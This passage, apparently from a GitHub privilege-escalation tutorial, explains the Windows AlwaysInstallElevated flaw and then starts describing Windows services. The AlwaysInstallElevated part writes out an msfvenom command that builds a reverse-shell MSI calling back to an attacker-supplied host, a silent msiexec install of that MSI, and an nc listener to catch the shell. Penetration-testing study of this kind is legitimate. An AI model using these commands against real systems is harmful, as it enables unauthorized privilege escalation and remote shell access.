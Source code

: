     ```powershell
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    ```
    
    - If **both return `0x1`**, exploitation is possible.
    
     <img width="1037" height="246" alt="Screenshot 2025-08-13 145021" src="https://github.com/user-attachments/assets/61ec8693-8b7a-4be3-8756-dc762e15bae0" />
    

 To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

**Exploitation Steps:**

1. **Generate Malicious .msi:**
    
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=53 -f msi -o evil.msi
    ```
    
    - (Or use a custom payload like adding a user to **Administrators**.)
2. **Upload & Execute:**
    
    ```powershell
    msiexec /quiet /qn /i C:\Temp\evil.msi
    ```
    
    - **`/quiet`** = No UI | **`/qn`** = No prompts.
3. **Receive Shell (or Check for New Admin User):**
    - If using a reverse shell:
        
        ```bash
        nc -lvnp 53
        ```
        

## Abusing Service Misconfigurations

**Windows Services:** 

Windows **services** are background processes that run independently of user sessions, performing system tasks like:

- **Hosting applications** (e.g., web servers, databases).
- **Managing hardware** (e.g., printer spooler).
- **Automating tasks** (e.g., scheduled backups, updates).

**Key Characteristics**

1. **Managed by SCM**
    - The **Service Control Manager (SCM)** handles service lifecycle (start/stop/configure).
    - Accessed via **`sc.exe`**, PowerShell (**`Get-Service`**), or **`services.msc`**.
2. **Run Under Specific Accounts**
    - **LocalSystem** (highest privileges), **NetworkService**, **LocalService**, or custom users.
3. **Startup Types**
    - **Automatic**: Starts at boot.
    - **Manual**: Starts on-demand.
    - **Disabled**: Cannot be started.
4. **Dependencies & Triggers**
    - Some services start only when others are running (e.g., DHCP client depends on TCP/IP).
5. **Registry & Executables**
    - Configs stored in **`HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>`**.
    - Each service points to an executable (**`BINARY_PATH_NAME`**).
